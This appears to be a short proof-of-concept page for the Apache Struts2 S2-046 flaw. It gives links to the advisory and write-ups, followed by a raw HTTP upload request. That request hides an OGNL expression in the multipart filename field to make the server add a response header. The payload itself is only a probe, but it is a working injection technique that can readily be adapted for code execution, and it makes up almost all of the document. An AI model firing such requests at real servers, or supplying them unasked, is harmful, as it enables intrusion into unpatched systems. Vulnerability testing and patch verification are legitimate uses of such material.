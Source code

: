 https://cwiki.apache.org/confluence/display/WW/S2-046

https://community.hpe.com/t5/Security-Research/Struts2-046-A-new-vector/ba-p/6949723#.WNAr_RLyvpR

https://community.hpe.com/t5/Security-Research/Struts2-046-A-new-vector/ba-p/6949723#

POC


POST /fileupload/doUpload.action HTTP/1.1

Host: 192.168.233.62:8086

User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64; rv:51.0) Gecko/20100101 Firefox/51.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8

Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3

Accept-Encoding: gzip, deflate

Referer: http://192.168.233.62:8086/fileupload/upload.action
Cookie: JSESSIONID=36B0F1EAB8CFC76F833E041AEE8A7575
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 2
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryAnmUgTEhFhOZpr9z
Connection: close
 
------WebKitFormBoundaryAnmUgTEhFhOZpr9z
Content-Disposition: form-data; name="upload"; filename="%{#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse'].addHeader('X-Test','Kaboom')}"
Content-Type: text/plain
Kaboom 
 
------WebKitFormBoundaryAnmUgTEhFhOZpr9z--

